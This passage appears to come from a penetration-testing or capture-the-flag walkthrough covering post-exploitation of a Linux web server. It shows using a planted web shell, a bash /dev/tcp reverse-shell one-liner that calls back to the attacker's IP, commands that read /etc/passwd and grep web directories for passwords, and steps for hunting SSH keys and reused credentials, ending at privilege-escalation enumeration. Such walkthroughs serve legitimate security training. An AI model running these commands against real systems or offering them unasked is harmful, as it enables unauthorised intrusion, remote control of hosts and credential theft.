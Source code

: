2. **Access the web shell**:
   ```
   http://<target_ip>/shell.php?cmd=id
   ```

3. **Upgrade to reverse shell**:
   ```
   http://<target_ip>/shell.php?cmd=bash -c 'bash -i >%26 /dev/tcp/<your_ip>/4444 0>%261'
   ```

## Lateral Movement

### User Enumeration

1. **Enumerate local users**:
   ```bash
   cat /etc/passwd | grep -v nologin
   ls -la /home/
   ```

2. **Check for sensitive files**:
   ```bash
   find / -name "*.txt" -o -name "*.conf" -o -name "*.config" -type f 2>/dev/null
   ```

3. **Check for password files or credentials**:
   ```bash
   grep -r "password" /var/www/ 2>/dev/null
   grep -r "PASSWORD" /var/www/ 2>/dev/null
   ```

### Lateral Movement Methods

1. **SSH key discovery**:
   - Check for readable .ssh directories
   - Look for private keys in unusual locations

2. **Password reuse**:
   - Try found credentials with other users
   - Check common locations for stored passwords

3. **Configuration files**:
   - Examine application config files for credentials
   - Look for database connection strings

## Privilege Escalation

### Basic Enumeration

1. **Check current user privileges**:
   ```bash
   id
   sudo -l
   ```
